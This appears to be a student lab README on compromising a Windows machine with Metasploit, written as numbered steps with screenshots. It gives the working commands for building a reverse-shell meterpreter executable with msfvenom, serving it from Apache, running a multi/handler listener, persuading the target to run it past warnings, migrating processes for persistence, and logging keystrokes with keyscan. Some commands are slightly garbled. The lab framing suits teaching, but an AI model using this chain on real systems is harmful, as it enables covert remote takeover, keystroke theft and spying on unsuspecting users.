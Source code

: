 # Compromising-windows-using-Metasploit
# AIM:
To Compromise windows using Metasploit .
## DESIGN STEPS:

- `Step 1:` Install kali linux either in partition or virtual box or in live mode
- `Step 2:` Investigate on the various categories of tools as follows:
- `Step 3:` Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig

![](1%20(2).png)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe.

![](2%20(2).png)


copy the fun.exe into the apache /var/www/html folder

![](3%20(1).png)



Start apache server sudo systemctl apache2 start

![](4%20(1).png)


Check the status of apache2

![](5%20(2).png)



Invoke msfconsole:
msfconsole

![](6.png)



Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

![](7.png)



Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit css

![](8.png)


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.

![](9.png)


Bypass any warning boxes, double-click the file, and allow it to run.

![](10.png)



On kali give the command exploit

![](11.png)



To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

![](12.png)


The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command: migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted.

![](13.png)



Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![](14.png)

![](15.png)



keyscan_dump Shows the keystrokes captured so far.

![](16.png)



## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.

